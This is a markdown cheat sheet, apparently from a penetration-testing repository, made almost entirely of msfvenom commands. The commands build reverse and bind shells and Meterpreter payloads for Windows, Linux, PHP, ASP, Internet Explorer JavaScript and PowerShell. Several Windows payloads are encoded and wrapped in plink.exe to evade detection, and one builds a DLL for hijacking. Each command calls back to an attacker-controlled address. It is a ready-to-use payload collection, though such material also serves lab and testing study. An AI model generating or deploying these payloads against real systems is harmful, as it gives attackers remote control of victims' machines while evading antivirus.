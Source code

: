 # WINDOWS ENCODED PAYLOADS  PORT 443
**====CHANGE. IP. AS. NEEDED.====**

## WINDOWS/SHELL/REVERSE_TCP [PORT 443]
```sh
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x86) [PORT 443]
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x64) [PORT 443]
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/METERPRETER/REVRESE_TCP (x86) [PORT 443] AT 10.0.0.67:
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/METERPRETER/REVRESE_TCP (x64) [PORT 443] AT 10.0.0.67:
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_64.exe
```

## ---===BIND SHELL, ENCODED, ON PORT 1234===---
```sh
msfvenom -p windows/shell_bind_tcp LHOST=10.0.0.67 LPORT=1234 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o bindshell_1234_encoded_86.exe
```

## Code for encoding:
```sh
msfvenom --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload_86.exe
```

================================================================================
# LINUX 
#### LINUX/x86/METERPRETER/REVERSE_TCP
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=9997 -f elf >reverse.elf
```

# NETCAT
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.67 LPORT=1234 -f elf >reverse.elf
```
================================================================================

# PHP 
#### PHP/METERPRETER_REVERSE_TCP [PORT 443]
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## PHP/METERPRETER/REVERSE_TCP [PORT 443]
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## PHP/REVERSE_PHP [PORT 443]
```sh
msfvenom -p php/reverse_php LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> 
shell.php
```
================================================================================

# ASP
#### ASP-REVERSE-PAYLOAD [PORT 443]
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp
```
## OR FOR NETCAT [PORT 443]
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp
```
================================================================================
## Client-Side, Unicode Payload - For use with Internet Explorer and IE
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none
```

- Note: To keep things the same size, if needed add NOPs at the end of the payload.
### A Unicode NOP is - %u9090

# SHELLCODE GENERATION:

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=80 EXITFUNC=thread -f python -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai
```

================================================================================
## DLL HiJacking - Windows - x64
```sh
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
================================================================================


```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.47.29 LPORT=4444 -f powershell
```






